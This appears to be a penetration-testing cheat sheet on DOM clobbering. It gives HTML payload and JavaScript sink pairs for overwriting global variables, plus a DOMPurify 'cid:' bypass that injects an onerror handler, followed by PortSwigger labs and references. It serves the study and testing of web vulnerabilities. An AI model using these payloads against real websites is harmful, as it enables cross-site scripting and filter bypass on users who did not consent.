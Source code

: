 # DOM Clobbering

> DOM Clobbering is a technique where global variables can be overwritten or "clobbered" by naming HTML elements with certain IDs or names. This can cause unexpected behavior in scripts and potentially lead to security vulnerabilities.

## Summary

- [Tools](#tools)
- [Methodology](#methodology)
- [Lab](#lab)
- [References](#references)


## Tools

- [SoheilKhodayari/DOMClobbering](https://domclob.xyz/domc_markups/list) - Comprehensive List of DOM Clobbering Payloads for Mobile and Desktop Web Browsers
- [yeswehack/Dom-Explorer](https://github.com/yeswehack/Dom-Explorer) - A web-based tool designed for testing various HTML parsers and sanitizers.
- [yeswehack/Dom-Explorer Live](https://yeswehack.github.io/Dom-Explorer/dom-explorer#eyJpbnB1dCI6IiIsInBpcGVsaW5lcyI6W3siaWQiOiJ0ZGpvZjYwNSIsIm5hbWUiOiJEb20gVHJlZSIsInBpcGVzIjpbeyJuYW1lIjoiRG9tUGFyc2VyIiwiaWQiOiJhYjU1anN2YyIsImhpZGUiOmZhbHNlLCJza2lwIjpmYWxzZSwib3B0cyI6eyJ0eXBlIjoidGV4dC9odG1sIiwic2VsZWN0b3IiOiJib2R5Iiwib3V0cHV0IjoiaW5uZXJIVE1MIiwiYWRkRG9jdHlwZSI6dHJ1ZX19XX1dfQ==) - Reveal how browsers parse HTML and find mutated XSS vulnerabilities


## Methodology

Exploitation requires any kind of `HTML injection` in the page.

* Clobbering `x.y.value`
    ```html
    // Payload
    <form id=x><output id=y>I've been clobbered</output>

    // Sink
    <script>alert(x.y.value);</script>
    ```

* Clobbering `x.y` using ID and name attributes together to form a DOM collection
    ```html
    // Payload
    <a id=x><a id=x name=y href="Clobbered">

    // Sink
    <script>alert(x.y)</script>
    ```

* Clobbering `x.y.z` - 3 levels deep
    ```html
    // Payload
    <form id=x name=y><input id=z></form>
    <form id=x></form>

    // Sink
    <script>alert(x.y.z)</script>
    ```

* Clobbering `a.b.c.d` - more than 3 levels
    ```html
    // Payload
    <iframe name=a srcdoc="
    <iframe srcdoc='<a id=c name=d href=cid:Clobbered>test</a><a id=c>' name=b>"></iframe>
    <style>@import '//portswigger.net';</style>

    // Sink
    <script>alert(a.b.c.d)</script>
    ```

* Clobbering `forEach` (Chrome only)
    ```html
    // Payload
    <form id=x>
    <input id=y name=z>
    <input id=y>
    </form>

    // Sink
    <script>x.y.forEach(element=>alert(element))</script>
    ```

* Clobbering `document.getElementById()` using `<html>` or `<body>` tag with the same `id` attribute
    ```html
    // Payloads
    <html id="cdnDomain">clobbered</html>
    <svg><body id=cdnDomain>clobbered</body></svg>


    // Sink 
    <script>
    alert(document.getElementById('cdnDomain').innerText);//clobbbered
    </script>
    ```

* Clobbering `x.username`
    ```html
    // Payload
    <a id=x href="ftp:Clobbered-username:Clobbered-Password@a">

    // Sink
    <script>
    alert(x.username)//Clobbered-username
    alert(x.password)//Clobbered-password
    </script>
    ```

* Clobbering (Firefox only)
    ```html
    // Payload
    <base href=a:abc><a id=x href="Firefox<>">

    // Sink
    <script>
    alert(x)//Firefox<>
    </script>
    ```

* Clobbering (Chrome only)
    ```html
    // Payload
    <base href="a://Clobbered<>"><a id=x name=x><a id=x name=xyz href=123>

    // Sink
    <script>
    alert(x.xyz)//a://Clobbered<>
    </script>
    ```


## Tricks

* DomPurify allows the protocol `cid:`, which doesn't encode double quote (`"`): `<a id=defaultAvatar><a id=defaultAvatar name=avatar href="cid:&quot;onerror=alert(1)//">`


## Lab

- [PortSwigger - Exploiting DOM clobbering to enable XSS](https://portswigger.net/web-security/dom-based/dom-clobbering/lab-dom-xss-exploiting-dom-clobbering)
- [PortSwigger - Clobbering DOM attributes to bypass HTML filters](https://portswigger.net/web-security/dom-based/dom-clobbering/lab-dom-clobbering-attributes-to-bypass-html-filters)
- [PortSwigger - DOM clobbering test case protected by CSP](https://portswigger-labs.net/dom-invader/testcases/augmented-dom-script-dom-clobbering-csp/)


## References

- [Bypassing CSP via DOM clobbering - Gareth Heyes - 05 June 2023](https://portswigger.net/research/bypassing-csp-via-dom-clobbering)
- [DOM Clobbering - HackTricks - January 27, 2023](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/dom-clobbering)
- [DOM Clobbering - PortSwigger - September 25, 2020](https://portswigger.net/web-security/dom-based/dom-clobbering)
- [DOM Clobbering strikes back - Gareth Heyes - 06 February 2020](https://portswigger.net/research/dom-clobbering-strikes-back)
- [Hijacking service workers via DOM Clobbering - Gareth Heyes - 29 November 2022](https://portswigger.net/research/hijacking-service-workers-via-dom-clobbering)
